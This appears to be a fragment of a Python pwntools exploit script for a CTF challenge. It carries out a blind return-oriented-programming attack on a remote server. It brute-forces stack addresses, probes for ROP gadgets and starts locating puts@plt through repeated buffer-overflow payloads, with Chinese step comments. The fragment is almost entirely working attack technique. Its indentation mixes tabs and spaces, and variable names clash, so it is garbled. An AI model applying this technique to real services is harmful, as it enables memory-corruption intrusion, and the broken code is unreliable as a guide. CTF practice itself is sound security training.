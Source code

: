```python
		print(hex(address))
		try:
			io = remote('pwn.challenge.ctf.show',28235)
			io.recvuntil('Do you know who is daniu?\n')	
            payload='a'*buf_length+p64(address)
 			io.send(payload)
 			output = io.recv()
 			if not output.startswith('Welcome to CTFshow-PWN ! Do you know who is daniu?'):
 				io.close()
 				address += 1
 			else:
 				return address
 		except EOFError:
 			address += 1
 			io.close()
#寻找useful gadge    
def GetgadgetsAddr(buf_length, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A" * buf_length
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            io.recvline()
            io.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"* buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
                io = remote('pwn.challenge.ctf.show',28235)
                io.recvline()
                io.sendline(payload)
                io.recvline()
                io.close()
                log.info("bad address: 0x%x" % addr)
            except:
                io.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            io.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1           
#获取puts_plt的地址            
def Getputs_plt(buf_length, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
                          
while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_length
        payload += p64(pop_rdi)
        payload += p64(0x400000)
```